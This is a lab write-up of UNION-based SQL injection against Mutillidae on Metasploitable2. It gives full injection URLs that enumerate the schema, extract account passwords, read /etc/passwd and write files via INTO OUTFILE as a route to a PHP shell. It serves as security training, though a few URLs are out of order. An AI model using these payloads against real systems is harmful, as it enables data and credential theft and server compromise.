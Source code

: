 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.


http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&password=&user-info-php-submit-button=View+Account+Details


The column names of the accounts is displayed below for the following url:

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details



Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’)..


## Result:

The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

